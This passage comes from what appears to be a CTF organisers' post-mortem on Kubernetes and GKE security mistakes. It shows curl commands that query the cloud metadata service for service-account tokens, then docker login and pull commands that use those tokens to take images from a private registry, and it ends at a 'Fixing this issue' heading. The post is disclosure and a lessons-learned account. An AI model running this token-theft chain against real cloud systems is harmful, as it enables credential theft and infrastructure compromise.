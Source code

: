 ## Implications

In hindsight, this was a pretty obvious oversight that could have easily been avoided with a more thorough read-through of the documentation. That being said, I would argue that this is an insecure default that should be disabled out of the box. This behavior could allow an attacker to pivot from a relatively simple web application bug (file disclosure) to a full infrastructure compromise. The Kubernetes community is aware of this issue. The long term solution is the role-based access control plugin which allows for more fine-grained access control and can be used limit what resources service accounts have access to. This feature was recently promoted to Kubernetes beta, and will likely make its way into GKE soon.

## 3. Private Docker Registry
Here is where we made our second mistake. Private docker registries on Google’s platform are simply buckets in Google Cloud Storage. The nodes in the cluster need to be able to pull from the registry, so read-only credentials are given to the nodes via service account credentials passed in the [instance metadata](https://cloud.google.com/compute/docs/storing-retrieving-metadata#querying), which is available to the node via an http service listening at `http://169.254.169.254` . We unfortunately glossed over this important detail during planning. Because some of our containers had flags baked into the images rather than mounted as volumes, it was possible to use a remote code execution vulnerability in one of the challenges to read the service account credentials and then pull our containers.

### How to Steal Flags:

Using an RCE or SSRF, an attacker would issue requests to the metadata service for the default service account email and access tokens.

```
# Assuming you have code execution within the container
$ curl http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/email
something-something@developer.gserviceaccount.com

$ curl -s http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
{"access_token": "something-something", "expires_in":1881,"token_type":"Bearer"}
```

Using those two pieces of information, you can use Docker to directly pull the images from our private registry.
```
# Using the credentials you have stolen from the previous steps
$ docker login -e <email> -u oauth2accesstoken -p "<access token>" https://gcr.io
$ docker pull gcr.io/bsides-ctf-2017/zumbo
# Extract flags from container..
```

This assumes that you have some internal knowledge: the name of our project and the image names, neither of which would be too difficult guess and are probably discoverable by other means.

### Fixing this issue
